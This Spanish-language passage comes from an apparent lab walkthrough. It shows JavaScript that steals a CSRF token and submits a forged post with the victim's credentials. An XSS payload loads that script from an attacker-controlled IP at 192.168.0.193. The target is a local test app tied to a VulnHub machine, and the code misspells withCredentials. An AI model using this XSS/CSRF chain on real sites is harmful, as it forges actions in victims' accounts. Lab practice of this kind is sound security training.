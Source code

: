 ------

Como ya realizamos la verificación de que estamos almacenando la respuesta, podemos comentar o eliminar **la segunda petición (req2)**, para luego agregar el código que parsee el dato que necesitamos y luego efectuar la segunda petición pero por POST ya que la petición suele mandarse por POST normalmente en la web y debemos respetar eso.


```javascript
// ------ENVIANDO UNA PETICIÓN POR GET PARA BUSCAR EL VALOR DEL csrf_token
var domain = "http://localhost:10007/newgossip";
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);
req1.whitCredentials = true; // Esta línea establece que se deben incluir las credenciales (como las cookies) en la solicitud. Esto es importante para asegurarse de que se puedan enviar y recibir cookies en la solicitud, lo que es necesario para mantener la sesión y otras configuraciones de autenticación.
req1.send();

// ------ALMACENANDO LA RESPUESTA DE LA PETICIÓN "req1"
var response = req1.responseText;

// ------PARSEO PARA FILTRAR Y TOMAR SOLO EL "csrf_token" DE LA RESPUESTA ALMACENADA
var parser = new DOMParser();
var doc = parser.parseFromString(response, 'text/html'); 
var token = doc.getElementsByName("_csrf_token")[0].value;

// ------ENVIANDO LA PETICIÓN POR POST CON EL csrf_token YA ALMACENADO
var req2 = new XMLHttpRequest();
var data = "title=Mi%20jefe%20es%20una%20mierda&subtitle=IMPORTANTE&text=Mi%20jefe%20no%20me%20paga%20nada&_csrf_token=" + token;
req2.open('POST', 'http://localhost:10007/newgossip', false);
req2.whitCredentials = true;
req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); // Utilizamos la misma cabecera que usa la primer petición que enviamos, si no no funcionará
req2.send(data);
```

Ya solo basta con que en el panel de entrada coloquemos ``<script src='http://192.168.0.193/pwned.js'></script>`` y cuando la victima clickee, automáticamente creará un post con el contenido que le especificamos en el código.

# Primer máquina vulnerable

La máquina se encuentra en https://www.vulnhub.com/entry/myexpense-1,405/